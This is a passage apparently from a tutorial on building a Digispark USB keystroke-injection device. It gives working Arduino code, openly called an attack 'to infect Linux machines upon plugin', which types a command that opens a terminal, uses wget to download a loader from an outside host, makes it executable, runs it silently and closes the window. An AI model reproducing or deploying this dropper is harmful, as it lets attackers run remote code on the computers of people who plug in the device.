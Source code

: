 ![digistump_default](/wp-content/uploads/2019/12/digistump_setboard.png)
**Figure 8:** Set board to Digispark Default.


### Linux Payload

The following code is what we've developed to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 *
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 *
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

